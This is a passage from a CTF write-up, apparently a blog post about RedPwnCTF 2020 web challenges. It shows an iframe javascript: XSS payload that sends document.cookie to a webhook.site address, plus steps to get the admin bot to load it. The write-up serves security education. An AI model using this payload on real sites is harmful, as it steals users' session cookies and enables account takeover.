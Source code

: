 However, there still exists different ways to inject an xss payload. As an example, an ``<iframe>``: 

```html
<iframe src="javascript:alert('Hello')"></iframe>
```
This prompts an alert. ``<iframe>`` elements can be used to smuggle our xss payload.

{{< image src="/images/REDPWN2020_StaticV2Alert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Use this payload to send a GET request to your server that steals admin cookies:
```html
<iframe src="javascript:document.location='https://webhook.site/31b4faf3-e6e6-44af-9d7d-196e18bcaed4?data='+document.cookie"></iframe>
```

Report the created page to the admin. Wait for it to ping your server.

{{< image src="/images/REDPWN2020_StaticV2Flag.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Summary
---

The collection of problems I showcased here were good opportunities to reinforce my websploit skills! They all involved classic forms of attacks which is common to see in most, if not all, CTFs. I will soon discuss the more unique and creative problems I saw in RedPwnCTF 2020!

Jam